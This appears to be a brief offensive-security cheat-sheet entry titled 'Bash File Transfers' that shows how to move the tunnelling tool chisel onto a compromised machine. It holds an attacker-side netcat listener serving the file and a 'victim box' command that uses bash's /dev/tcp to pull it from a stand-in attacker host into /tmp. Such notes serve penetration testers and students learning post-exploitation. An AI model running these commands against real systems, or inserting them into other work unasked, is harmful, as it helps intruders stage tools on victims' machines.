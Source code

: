 # Bash File Transfers

## Simple File Transfers

<pre class="language-bash">
<code class="lang-bash">
# Attacker Box
nc -lnvp 8000 &#x3C; chisel

# Victim Box
bash -c "cat &#x3C; /dev/tcp/attackerboxip/8000 > /tmp/chisel"
</code></pre>

